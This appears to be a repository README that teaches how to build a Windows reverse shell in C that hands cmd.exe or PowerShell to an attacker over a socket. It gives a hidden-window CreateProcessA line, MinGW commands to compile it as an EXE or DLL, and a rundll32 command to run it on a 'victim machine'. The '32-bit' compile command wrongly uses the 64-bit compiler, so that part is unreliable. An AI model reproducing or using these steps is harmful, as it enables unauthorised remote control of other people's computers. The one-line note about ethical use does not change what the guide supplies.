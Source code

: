 # Reverse Shell C Code Tutorial for Windows

This guide demonstrates how to create a reverse shell in C on Windows using Winsock2, compile it, and optionally wrap it into a DLL that can be executed remotely.

## **Code Walkthrough**

The attached c code `reverse.c` creates a reverse shell that connects to a specified IP and port and then runs a command shell (`cmd.exe`) remotely over the network.

### **Code Explanation**
### **Key Components**

1. **Socket Initialization**
   - The code starts by initializing Winsock using `WSAStartup()`.
   
2. **Server Setup**
   - The `sockaddr_in` structure is configured to set up the connection parameters such as IP address and port.
   
3. **Establish Connection**
   - The `connect()` function establishes a connection to the target IP and port.

4. **Redirect Input/Output**
   - The `STARTUPINFO` structure is used to redirect standard input, output, and error streams to the socket.
   
5. **Process Creation**
   - `CreateProcessA()` is used to spawn the `cmd.exe` shell on the victim machine, which will interact with the attacker via the socket.

### **Alternative for PowerShell Reverse Shell**

You can replace `"cmd"` with `"powershell"` to launch PowerShell as a reverse shell instead of `cmd.exe`:

```c
CreateProcessA(NULL, "powershell", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);
```

---

## **Compile the C File to .exe**

You can compile the C file to a Windows executable using MinGW.

### **For 32-bit Windows Target:**

```bash
x86_64-w64-mingw32-gcc -o output.exe source.c -lws2_32
```

### **For 64-bit Windows Target:**

```bash
x86_64-w64-mingw32-gcc -o output.exe source.c -lws2_32
```

The `-lws2_32` flag links the **Winsock2** library, which is required for network-related APIs.

---

## **Compile the C File to .dll**

You can also compile the code into a DLL to be executed with `rundll32`.
Use the c code called `reverse_to_dll.c` 
To compile the code into a DLL, use:

```bash
x86_64-w64-mingw32-gcc -o reverse.dll reverse_to_dll.c -lws2_32 -shared
```

---

## **Export Function from DLL**

You can inspect the exported functions of the DLL using the `pefile` Python module.

### **Using `pefile` to List DLL Exports:**

```bash
python -m pefile exports reverse.dll
```

This will output a list of exported functions from the DLL, like:

```bash
0x3a8c11541 b'Function_name' 1
```

---

## **Test the DLL File Manually**

To test the DLL manually from the victim machine, use the following command:

```bash
rundll32 reverse.dll,Function_name
```

This will invoke the function `Function_name()` inside the `reverse.dll` and execute the reverse shell.

---

## **Conclusion**

This guide demonstrated how to create a reverse shell in C, compile it into a Windows executable or DLL, and run it remotely. The core of this process involves setting up a socket connection and redirecting input/output to that socket. You can adapt this method to other tasks, such as creating a remote command execution tool or experimenting with PowerShell.

---

### **Important Note**

This code should be used in a legal and ethical context only, such as in penetration testing environments where you have permission to test security vulnerabilities.
